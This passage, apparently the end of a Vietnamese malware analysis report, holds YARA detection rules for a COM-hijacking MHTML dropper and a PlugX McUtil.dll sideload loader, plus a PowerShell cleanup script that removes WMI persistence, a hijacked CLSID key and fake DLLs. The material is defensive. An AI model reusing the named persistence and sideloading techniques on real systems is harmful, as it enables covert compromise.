        uint16(0) == 0x5A4D and (3 of ($s*))
}

/*
 * Quy tắc nhận diện Mẫu 2: MHTML COM Hijacking Word Dropper
 */
rule APT_MHTML_COM_Hijack_Dropper {
    meta:
        description = "Detects MHTML Document with COM Hijack VBA Macro (malw.rtf)"
        author = "Antigravity Threat Intelligence"
        date = "2026-10-13"
        hash = "61182036fd1e668ad818f64c351034344b54f92793b0dcc52045cb221f9bb2c2"
    strings:
        $clsid = "{2DEA658F-54C1-4227-AF9B-260AB5FC3543}" ascii wide nocase
        $target = "main_background.png" ascii wide nocase
        $mime = "multipart/related" ascii nocase
        $table = "TVqQAAMAAAAEAAAA" ascii wide
    condition:
        $mime at 0 and ($clsid or ($target and $table))
}

/*
 * Quy tắc nhận diện Mẫu 3: PlugX Sideload Loader McUtil.dll
 */
rule PlugX_McUtil_Sideload_Loader {
    meta:
        description = "Detects malicious McUtil.dll sideloading component for McAfee.exe"
        author = "Antigravity Threat Intelligence"
        date = "2026-10-13"
        hash = "021e2269e61dec54aab5df2477a7fc24bc7449944c53634d611e826e343e32f4"
    strings:
        $payload = "McUtil.dll.mc" wide
        $api1 = "VirtualAlloc" ascii
        $api2 = "CreateFileW" ascii
        $api3 = "ReadFile" ascii
        $api4 = "Sleep" ascii
    condition:
        uint16(0) == 0x5A4D and filesize < 10KB and $payload and (3 of ($api*))
}
```

---

### 7.2. Kịch bản Ứng phó Sự cố & Dọn dẹp (PowerShell Incident Response Script)

Quản trị viên an ninh hệ thống có thể chạy tập lệnh PowerShell sau với quyền **Administrator** để tự động kiểm tra, cách ly và dọn dẹp triệt để cả 3 mối đe dọa trên hệ thống:

```powershell
<#
.SYNOPSIS
    Tập lệnh phản ứng sự cố khẩn cấp (Incident Response) loại bỏ mã độc từ a.rar, b.rar, c.rar
.DESCRIPTION
    Quét và dọn sạch WMI Subscriptions, COM Hijacking Registry, và các tiến trình Sideloading.
#>

# Yêu cầu quyền Administrator
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Error "Vui long chay PowerShell voi quyen Run as Administrator!"
    Exit 1
}

Write-Host "=== BAT DAU RA SOAT VA XU LY SU CO MA DOC ===" -ForegroundColor Cyan

# -------------------------------------------------------------
# 1. XỬ LÝ MẪU 1: GỠ BỎ WMI EVENT CONSUMER & INSTEL.EXE
# -------------------------------------------------------------
Write-Host "[1/4] Kiem tra WMI Event Persistence (ProbeScriptFint)..." -ForegroundColor Yellow

$consumer = Get-CimInstance -Namespace root\subscription -ClassName ActiveScriptEventConsumer -Filter "Name='ProbeScriptFint'" -ErrorAction SilentlyContinue
if ($consumer) {
    Remove-CimInstance -InputObject $consumer
    Write-Host " [+] Da xoa WMI Consumer: ProbeScriptFint" -ForegroundColor Green
}

$filter = Get-CimInstance -Namespace root\subscription -ClassName __EventFilter -Filter "Name='ProbeScriptFint'" -ErrorAction SilentlyContinue
if ($filter) {
    Remove-CimInstance -InputObject $filter
    Write-Host " [+] Da xoa WMI Filter: ProbeScriptFint" -ForegroundColor Green
}

$timer = Get-CimInstance -Namespace root\subscription -ClassName __IntervalTimerInstruction -Filter "Timerid='ProbeScriptFint'" -ErrorAction SilentlyContinue
if ($timer) {
    Remove-CimInstance -InputObject $timer
    Write-Host " [+] Da xoa WMI Timer: ProbeScriptFint" -ForegroundColor Green
}

$binding = Get-CimInstance -Namespace root\subscription -ClassName __FilterToConsumerBinding -ErrorAction SilentlyContinue | Where-Object { $_.Filter.Name -eq 'ProbeScriptFint' }
if ($binding) {
    Remove-CimInstance -InputObject $binding
    Write-Host " [+] Da xoa WMI Binding" -ForegroundColor Green
}

# Tiêu diệt tiến trình và xóa file Instell.exe
$instellPath = "C:\Windows\system32\Instell.exe"
if (Test-Path $instellPath) {
    Stop-Process -Name "Instell" -Force -ErrorAction SilentlyContinue
    Remove-Item $instellPath -Force
    Write-Host " [+] Da ket thuc va tieu huy tệp: $instellPath" -ForegroundColor Green
}
$logPath = "C:\Windows\system32\httpcom.log"
if (Test-Path $logPath) {
    Remove-Item $logPath -Force
    Write-Host " [+] Da xoa tệp nhat ky ma doc: $logPath" -ForegroundColor Green
}

# -------------------------------------------------------------
# 2. XỬ LÝ MẪU 2: GỠ BỎ COM HIJACKING & FILE GIẢ ẢNH DLL
# -------------------------------------------------------------
Write-Host "[2/4] Kiem tra COM Hijacking Registry Key..." -ForegroundColor Yellow

$comKey = "HKCU:\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}"
if (Test-Path $comKey) {
    Remove-Item -Path $comKey -Recurse -Force
    Write-Host " [+] Da xoa bo khoa COM Hijack: $comKey" -ForegroundColor Green
}

# Rà soát trong toàn bộ hồ sơ người dùng (All User AppData)
Get-ChildItem "C:\Users\*\AppData\Roaming\main_background.png" -Force -ErrorAction SilentlyContinue | ForEach-Object {
    Remove-Item $_.FullName -Force
    Write-Host " [+] Da xoa DLL gia mao: $($_.FullName)" -ForegroundColor Green
}

# -------------------------------------------------------------
# 3. XỬ LÝ MẪU 3: RÀ SOÁT TIẾN TRÌNH MCAFEE BỊ SIDELOAD
# -------------------------------------------------------------
Write-Host "[3/4] Kiem tra tien trinh McAfee.exe bi Sideloading..." -ForegroundColor Yellow

Get-Process -Name "McAfee" -ErrorAction SilentlyContinue | ForEach-Object {
    $procPath = $_.Path
    # Neu tien trinh McAfee chay tu mot thu muc KHONG thuoc Program Files
    if ($procPath -notmatch "^C:\\Program Files" -and $procPath -notmatch "^C:\\Program Files \(x86\)") {
        Write-Warning " [!] PHAT HIEN TIEN TRINH MCAFEE DOC HAI TAI: $procPath (PID: $($_.Id))"
        Stop-Process -Id $_.Id -Force
        Write-Host " [+] Da buoc dung tien trinh McAfee doc hai PID $($_.Id)" -ForegroundColor Green
        
        # Di chuyển thư mục khả nghi vào vùng cách ly
        $parentDir = Split-Path $procPath
        Write-Host " [i] Thu muc nguon khuyen nghi cach ly: $parentDir" -ForegroundColor Yellow
    }
}

# -------------------------------------------------------------
# 4. TỔNG KẾT
# -------------------------------------------------------------
Write-Host "[4/4] He thong da hoan tat quy trinh ra soat va lam sach!" -ForegroundColor Cyan
Write-Host "=== XU LY SU CO HOAN TAT AN TOAN ===" -ForegroundColor Green
```

---

*Báo cáo được hoàn thiện và chuẩn hóa chuyên sâu bởi Hệ thống Phân tích Mã độc Antigravity.*
